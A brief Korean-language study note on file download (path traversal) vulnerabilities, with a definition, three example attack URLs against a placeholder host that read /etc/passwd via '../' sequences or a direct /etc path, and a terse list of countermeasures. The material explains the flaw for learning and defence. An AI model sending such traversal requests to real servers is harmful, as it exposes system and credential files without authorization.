



# 파일 다운로드 취약점
## 1) 파일 다운로드 취약점이란 무엇인가?
서버가 의도하지 않은 파일까지 사용자에게 내려주게 되는 보안 취약점.



## 2) 공격 원리
* 기존 경로의 강제 변경


## 3) 공격 방법
* case1
```
정상 요청: http://www.victim.co.kr/download?filename=test.png
공격 요청: http://www.victim.co.kr/download?filename=../../../../etc/passwd
```
* case2
```
정상 요청: http://www.victim.co.kr/download?path=image&filename=test.png
공격 요청: http://www.victim.co.kr/download?path=../../../../etc&filename=passwd
```
* case3
```
정상 요청: http://www.victim.co.kr/download?path=/jeus/webhome/test_con/app/upload&filename=test.png
공격 요청: http://www.victim.co.kr/download?path=/etc&filename=passwd
```

## 4) 대응 방안
* 전체 경로 + 파일명
  * 일부 경로 + 파일명
  * 파일명
  * 키(key) 값
